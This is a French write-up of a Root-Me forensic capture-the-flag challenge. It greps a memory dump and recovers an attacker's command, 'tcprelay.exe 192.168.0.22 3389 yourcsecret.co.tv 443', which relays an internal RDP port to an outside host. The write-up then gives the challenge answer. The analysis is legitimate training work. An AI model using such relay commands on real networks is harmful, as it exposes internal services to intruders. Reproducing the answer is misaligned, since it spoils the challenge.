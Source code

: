 # Challenge Rootme 4

Lien : https://www.root-me.org/fr/Challenges/Forensic/Command-Control-niveau-4

### Objectif :

**Trouver l'adresse IP du serveur interne que ces cybercriminels visent**

    strings ch2.dmp |grep tcprelay

Output :

      tcprelay.exe
    tcprelay.exe
    tcprelay.exe
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.c
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    \Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
    \Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
    tcprelay.exe
    5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    tcprelay.c
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    01/12/2013  05:57 PM            22,078 tcprelay.exe
    mp\TEMP23\tcprelay.exe
    Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    01/12/2013  05:57 PM            22,078 tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
    5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    tcprelay.c
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 

Nous voyons ici que l'adresse IP ainsi que le port est **192.168.0.22:3389** !